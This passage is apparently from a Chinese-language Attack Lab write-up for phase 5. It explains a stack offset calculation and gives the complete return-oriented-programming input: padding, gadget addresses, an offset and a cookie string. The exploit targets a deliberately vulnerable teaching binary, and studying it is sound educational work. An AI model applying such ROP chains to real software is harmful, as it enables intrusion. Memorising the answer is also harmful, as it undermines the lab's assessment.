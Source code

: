 因为在执行第一条`rax = rsp`时，已经执行了一次`ret`指令，因此此时`%rsp`在`buf + 48`处，也就是返回地址已经被弹出了一个。所以在`buf + 48`后面是 9 个地址 + 数据，因此偏移量应该是 `9 * 8 = 72`，转化为 16 进制就是`0x48`。最终的栈结构如下：

![phase5-last.png](phase5-last.png)

因此，phase 5 的输入为：

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
06 1a 40 00 00 00 00 00
c5 19 40 00 00 00 00 00
ab 19 40 00 00 00 00 00
48 00 00 00 00 00 00 00
dd 19 40 00 00 00 00 00
69 1a 40 00 00 00 00 00
13 1a 40 00 00 00 00 00
d6 19 40 00 00 00 00 00
c5 19 40 00 00 00 00 00
fa 18 40 00 00 00 00 00
35 39 62 39 39 37 66 61
00
```
